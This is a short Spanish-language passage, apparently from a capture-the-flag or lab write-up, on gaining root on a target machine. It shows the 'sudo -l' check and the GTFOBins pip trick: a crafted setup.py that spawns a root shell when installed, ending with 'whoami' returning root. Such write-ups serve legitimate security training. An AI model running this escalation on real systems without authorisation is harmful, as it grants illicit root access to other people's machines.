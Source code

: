 ### Rootear la maquina {-}

```bash
sudo -l
```

vemos aqui que podemos utilizar la heramienta pip3 con el privilegio del usuario root sin proporcionar contraseña.

Miramos en [GTFOBINS](https://gtfobins.github.io/gtfobins/pip/#sudo)

```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
pip3 install $TF

whoami
#Output
root
```